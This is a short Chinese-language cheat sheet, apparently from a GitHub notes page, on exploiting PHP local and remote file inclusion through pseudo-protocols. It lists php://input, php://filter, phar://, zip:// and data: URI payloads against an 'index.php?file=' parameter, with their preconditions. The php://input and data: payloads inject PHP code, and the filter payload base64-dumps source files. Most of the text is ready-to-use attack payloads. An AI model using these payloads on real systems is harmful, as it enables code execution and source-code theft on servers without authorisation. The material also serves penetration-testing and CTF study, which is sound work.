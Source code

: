 ## 伪协议
参考:
	- https://chybeta.github.io/2017/10/08/php%E6%96%87%E4%BB%B6%E5%8C%85%E5%90%AB%E6%BC%8F%E6%B4%9E/


### php://input
利用条件：
	- allow_url_include = On。
	- 对allow_url_fopen不做要求。

```
index.php
?file=php://input
POST:
<? phpinfo();?>
```

### php://filter
filter的过滤器有很多。
```
index.php?file=php://filter/read=convert.base64-encode/resource=index.php
```

### phar://
(PHP 5 >= 5.3.0, PHP 7, PECL phar >= 1.0.0)
```
index.php?file=phar://test.zip/phpinfo.txt
```

### zip://
(PHP 5 >= 5.2.0, PHP 7, PECL zip >= 1.1.0)
绝对路径，编码#
```
index.php?file=zip://D:\phpStudy\WWW\fileinclude\test.zip%23phpinfo.txt
```

### data:URI schema
(php>=php5.2, allow_url_fopen = On, allow_url_include = On)
```
index.php?file=data:text/plain,<?php phpinfo();?>
```